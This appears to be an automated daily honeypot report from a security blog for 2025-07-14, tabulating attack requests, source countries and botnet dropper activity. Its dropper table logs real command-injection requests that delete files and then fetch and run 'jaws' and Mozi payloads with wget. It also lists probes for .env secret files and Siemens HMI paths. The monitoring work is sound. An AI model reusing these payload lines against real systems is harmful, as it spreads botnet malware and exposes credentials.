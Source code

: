 ```yaml
---
title: "Report: 2025-07-14 "
date: 2025-07-14
desciption: "Report: 2025-07-14" 
tags: [repport, daily]
---
```



# Daily Report: 2025-07-14 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 6 stage 1 IP address(es), linked to 2 dropper URL(s).  

There are 27 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1062 requests were recorded during the day, originating from 6 different countries, with a peak of 300 requests coming from GB.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| DE               | Germany            |
| GB               | Germany            |
| US               | Dubai              |
| NL               | Israel             |
| MD               | Israel             |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                               |
|:----------------|:----------------------------------------------------------------------------------------------------------------------|
| 8.209.205.188   | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                  |
| 8.219.133.204   | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                  |
| 180.76.121.16   | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                  |
| 103.207.224.249 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0 |
| 8.213.220.43    | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                  |
| 117.72.211.135  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                  |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                    |
|----:|----------------------:|:-----------------------------------------------------------|
|  48 |                     3 | GET /api/.env.live HTTP/1.1                                |
|  50 |                     3 | GET /app/.env.conf HTTP/1.1                                |
|  53 |                     3 | GET /api/.env.orig HTTP/1.1                                |
|  54 |                     3 | GET /app/.env.smtp HTTP/1.1                                |
|  55 |                     3 | GET /admin/.env.js HTTP/1.1                                |
|  58 |                     3 | GET /auth/.env.bak HTTP/1.1                                |
|  59 |                     3 | GET /api/.env.smtp HTTP/1.1                                |
|  67 |                     3 | GET /websockify HTTP/1.1                                   |
|  84 |                     2 | GET /backend/.env~ HTTP/1.1                                |
|  86 |                     2 | GET /app/mail/.env HTTP/1.1                                |
| 213 |                     1 | GET /odinhttpcall1752459022 HTTP/1.1                       |
| 215 |                     1 | GET /OdinHttpCall1752459022 HTTP/1.1                       |
| 216 |                     1 | GET /Odin/http/call1752459022 HTTP/1.1                     |
| 236 |                     1 | \x00\x0E\x08\xF7'i\xDC?\x93\xE2\x1B\x00\x00\x00\x00\x00    |
| 237 |                     1 | \x00\x0E8\xF7'i\xDC?\x93\xE2\x1B\x00\x00\x00\x00\x00       |
| 242 |                     1 | \x00\x0E\x08\xA8 \xD0I\x1C\x06\xDB\x05\x00\x00\x00\x00\x00 |
| 243 |                     1 | \x00\x0E8\xA8 \xD0I\x1C\x06\xDB\x05\x00\x00\x00\x00\x00    |
| 263 |                     1 | \x04\x01\x00P\xC4\xFBt\xA2\x00                             |
| 264 |                     1 | CONNECT 196.251.116.162:80 HTTP/1.0                        |
| 326 |                     1 | GET /app/jobs/.env HTTP/1.1                                |
| 327 |                     1 | GET /api/.env.conf HTTP/1.1                                |
| 330 |                     1 | GET /clientes/.env HTTP/1.1                                |
| 333 |                     1 | GET /auth/.env.crt HTTP/1.1                                |
| 354 |                     1 | GET /wwwSiemens HTTP/1.1                                   |
| 355 |                     1 | GET /wwwSiemens/Rt/RecipeImpPath/ HTTP/1.1                 |
| 356 |                     1 | GET /wwwSiemens/Rt/FwxPath/ HTTP/1.1                       |
| 357 |                     1 | GET /wwwSiemens/Rt/FwxPath/pdata.pwl HTTP/1.1              |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   300 | GB                 |
|  1 |                   203 | US                 |
|  2 |                   112 | CN                 |
|  3 |                    64 | HK                 |
|  4 |                    59 | DE                 |
|  5 |                    53 | PL                 |
|  6 |                    52 | CA                 |
|  7 |                    31 | BG                 |
|  8 |                    28 | NL                 |
|  9 |                    23 | ZA                 |
| 10 |                    20 | MD                 |
| 11 |                    14 | AU                 |
| 12 |                    11 | SC                 |
| 13 |                     7 | AO                 |
| 14 |                     6 | MU                 |
| 15 |                     6 | BE                 |
| 16 |                     6 | CH                 |
| 17 |                     5 | JP                 |
| 18 |                     5 | UA                 |
| 19 |                     5 | PT                 |
| 20 |                     4 | SG                 |
| 21 |                     4 | IN                 |
| 22 |                     4 | RU                 |
| 23 |                     4 | BR                 |
| 24 |                     3 | TH                 |
| 25 |                     3 | LT                 |
| 26 |                     3 | KZ                 |
| 27 |                     2 | TR                 |
| 28 |                     2 | IL                 |
| 29 |                     2 | BY                 |
| 30 |                     2 | FR                 |
| 31 |                     2 | EE                 |
| 32 |                     2 | KR                 |
| 33 |                     2 | RO                 |
| 34 |                     2 | MC                 |
| 35 |                     2 | ID                 |
| 36 |                     2 | VN                 |
| 37 |                     2 | IE                 |
| 38 |                     1 | CZ                 |
| 39 |                     1 | AZ                 |
| 40 |                     1 | MY                 |
| 41 |                     1 | BD                 |
| 42 |                     1 | SE                 |
